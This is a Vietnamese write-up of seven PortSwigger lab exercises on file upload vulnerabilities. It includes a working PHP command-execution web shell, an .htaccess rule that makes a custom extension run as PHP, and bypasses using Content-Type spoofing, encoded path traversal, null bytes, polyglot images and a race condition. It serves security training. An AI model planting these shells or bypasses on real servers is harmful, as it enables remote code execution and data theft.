 # File upload vulnerabilities - Portswigger
## 1. Remote code execution via web shell upload
Bài này khá đơn giản mình chỉ cần upload một file .php chứa webshell lên thay vì ảnh bình thường là được
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_9767f6ee6f146e7dbb1b1fc725bd1efd.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088442&Signature=WkGi0We5UV4qvQlDa%2B2FHiMXXrQ%3D)
Ta dùng lệnh để đọc nội dung trong file secret và có được secret là `TswuW44vMztdKYo8mmAF4TkkJgZjPP8H`
![image]([https://github.com/b4shu206/PortSwigger/blob/main/FILE%20UPLOAD%20VULNERABILITY/image/upload_d3e6ff0bebadb6a39d64d978767febf3.png](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_d3e6ff0bebadb6a39d64d978767febf3.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088453&Signature=2kUgya7nVZvkzTmsv2jAsrhvjL0%3D))
Nạp secret và solved được lab.
## 2. Web shell upload via Content-Type restriction bypass
Lần này ta chỉ việc thay đổi content-type thành `image/png` là đã upload thành công webshell
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_21afc9803724dea78bd4f0ca2576a2e4.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088370&Signature=SoIWNqzsBEi79jQY2ODSm4UzyWE%3D)
Dùng lệnh đọc và lấy được secret `KnLwUfLjerQDbWM72RyBeFGqdI6zSjkh`
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_4e2829ff5d061c54dc2a08fe69008373.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088473&Signature=9rk6nz9gAI5U3LNXVNePzFxUI7E%3D)
Submit và đã solved được lab.
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_8bc4dc85e7201c750ffb7553fb27b2d7.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088481&Signature=aKeeavNLo4guHzd1pcoDc4HKeIs%3D)
## 3. Web shell upload via path traversal
Ta đọc đề thì thấy ta cần kết hợp với lỗi path traversal. Mình có thử upload lên nhưng webshell không hoạt động
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_ee41d5c786b757c569cc76d59b630cb1.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088487&Signature=jb92lQq9dqvwuiJw3XNUDZdx3Cc%3D)
Vậy ta cần đổi tên file để có thể upload ra ngoài thư mục avatars và webshell ta nó sẽ hoạt động.
Ta search payload ở [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2db7888f0337e5a7fbe19b252cebede0.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088496&Signature=bAb1ptKeUpx5xB2jKcBbTTKSVok%3D)
Có vẻ nhưng `../` , `..\` , `../\` đều đã bị chặn. Nên mình đã dùng `%2e%2e%2f` thì đã upload được thành công ra ngoài.
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_a9928d9e1ece0c73af5264f1c042279f.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088504&Signature=DZvdmL%2BaefyTCOsy%2B3V1kisnI8w%3D)
Truy cập bằng `files/test.php` và đọc file thì được secret `ivFsLt8JIcyD0Y8EriCp5xEg3Mre4OOW`
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_ef1d493a6cfb0cc0b371f94c4801a3d2.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088511&Signature=ADwayR5cU%2FqyUnZVHOrCDHQw8H0%3D)
Submit và đã solved được lab.
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_002b20ff8dff86126747972e8f26835f.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088518&Signature=IyIPgnCiNHxL%2B8XdcOl%2Btj14db0%3D)
## 4. Web shell upload via extension blacklist bypass
Lần này đã bị block hết đuôi `.php`
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_61d2bbd12aeb918cbd270e12ce801c25.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088523&Signature=dx7Y1a3fxpGWp4DAcyDU3XEvuno%3D)
Và không upload được, mình có thử các đuôi khác như php3,php5,php7,... thì file không hoạt động.
Đọc hint thì thấy cần up 2 file khác nhau
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_8e7e0ce4271b69053a3a4c367c9b86cb.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088530&Signature=tiIB1%2FCQBkXhf4D8qjnj%2FfcznY4%3D)
Đọc document thì phát hiện ra ta có thể upload file .htaccess và ghi đè lên nó
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_b9f4e9110e8e9bf36f398fc0c6ba329a.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088536&Signature=jf0IJ3VgjrIeKB2pzcqAeub95Qc%3D)
Ta có thể cho 1 đuôi bất kỳ nhưng vẫn hoạt động như file .php bằng nội dung sau thì file .test sẽ hoạt động như .php
```
<FilesMatch "\.test$">
    SetHandler application/x-httpd-php
</FilesMatch>
```
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2c285545e52b19386199d279f314dca9.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088558&Signature=NhP8MedCxbenjsUYxZtHiCe4R7Q%3D)
Giờ ta chỉ việc sửa đuôi file và tên file là `test.test` và upload thôi
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_7af32d6c85d755a1add67bf5badeed4e.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088564&Signature=qbYOHNQ7qvg8BHQ3lCmehoc7B%2Fw%3D)
Vậy là ta đã upload thành công giờ chỉ việc đọc file và lấy được secret là `VQMWq5rpLrkIqlUiBzngnRvFd9skJLJX`
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_ca4b11f2b5f8c4ec706f7c872f8cb4c8.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088573&Signature=ORIw4EHvsgCd2qpnwV50f1TaeN8%3D)
Nạp và ta đã solved được lab.
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_b246bfb0be5a7f48d0fbf85faf3c5793.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088578&Signature=sDREjzHSQ6X%2BQYljUOu7Hq%2FD6s0%3D)
## 5. Web shell upload via obfuscated file extension
Ta tiếp tục đọc document
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_cabe38a74f9711faec2c1e02b990ca20.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088584&Signature=tKMHlz6G%2BA8JitMLy417adetryk%3D)
Thì bày này chỉ chấp nhận việc ta upload file `.jpg` hoặc là `.png`
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2e0dcb867c689993c501f73011c89642.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088592&Signature=R8NoJCCdaSAaNEhXWzdptR3Rpmo%3D)
Và nó chỉ cần có đuôi `.jpg` hoặc `.png` ở cuối là được ta có thể bypass bằng cách thêm byte null trước đuôi `.png` thì vẫn bypass qua được nhưng đuôi `.png` sẽ biến mất
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_c0d94b34df7476790fb29b6ddecd9b55.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088599&Signature=BCiPVtkDlQcIyRJvuQliy5PXAak%3D)
Vậy là ta đã upload thành công. Giờ chỉ việc đọc file và có được secret là `rHv3lt6txH4VT1iYVdvztrkbOh7qgGQa`
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2aab46f26d16b6f8d3c419de796c8bfd.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088607&Signature=sr3lQ15KKJEx9%2FtAcqA%2FqLFkPR8%3D)
Và solved được lab
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_22b10e5e696772b58a19c80c097bb230.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088615&Signature=cbfjMtLGLdqKhCBvnB3%2FpOmz1K8%3D)
## 6. Remote code execution via polyglot web shell upload
Vì bài này chỉ check content trong có chính xác là bức ảnh hay không nên ta thử đổi tên file là `.php` thì vẫn upload bình thường
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_1fbf52fa9296bd7165e0f5e62b012d8c.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088623&Signature=QUr%2ButYbzJ4SWek18aDq9nsgss4%3D)
Giờ ta chỉ việc chèn webshell ở dưới nội dung ảnh và up lên là được
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2fc771c6bf479a855bd2e328c69d04ab.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088634&Signature=xX6qh55y%2FS%2FH3VIrCJQb7IQagmQ%3D)
Và ta đã upload thành công webshell lên và lấy được secret là `tVhTcZSPJdxe2ObMmUN7bY2oletBZsnU`
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_bafeb4bc08087a106feff5c6b976f424.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088642&Signature=bdOEO3WAER2r1nFCk4W5hCJtuPA%3D)
Submit và đã solved được lab
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_5f4d67f37b53e7cc7d03957c707fa0a6.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088648&Signature=lJuA381P5JFmUj%2BJDXHHWfKTP3Q%3D)
## 7. Web shell upload via race condition
Mình thử upload 1 loạt file lên thì đều không thành công
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_5caff772fe2baf66a0b7bb3621da4acc.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088658&Signature=OyZEmRgnpfYAWin6ldZVMgJBSQ0%3D)
Nên đọc thử document
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_f9cf9a1e95dc6c0f06cc9916fa2e5af4.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088668&Signature=jt1xR1IoeUrDPTK2QY%2FMiyg2xO0%3D)
Và đọc hint thì ta có sourcecode
```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```
Thì có vẻ giống như document nó vẫn tải lên và lưu trữ  sau đó mới chuyển rồi kiểm tra và khi không vượt qua kiểm tra thì mới xóa.
Trong thời gian di chuyển thì mình có thể chèn thêm 1 request `GET` để chạy file mình vừa upload lên
Nội dung file là:
```php
<?php
echo "<pre>" . htmlspecialchars(file_get_contents('/home/carlos/secret')) . "</pre>";
?>
```
Và ta gộp thành group và sử dụng chức năng `Send group (parallel)` để có thể gửi 2 request này cùng lúc.
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_fa032671c7c6753740c0d84268e68abd.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088683&Signature=ydZ133HhbNqMxRtqmIUVaOHC86o%3D)
Cách này còn tùy thuộc vào mạng nhà bạn và độ nhân phẩm =))
Sau rất nhiều lần gửi đi gửi lại thì mình đã đọc và có được secret.
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_9a6a63e85c2e36dd2bcc1684cd736646.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088690&Signature=FzDe%2B3qrCq9UqyTqEuXMgzgYiMg%3D)
Đem đi nạp và solved được lab.
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_6828c3e7aadcd41cea2dd228285b7458.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088353&Signature=VQE6PtNQ5ivYTamV8owQKVDOlrc%3D)
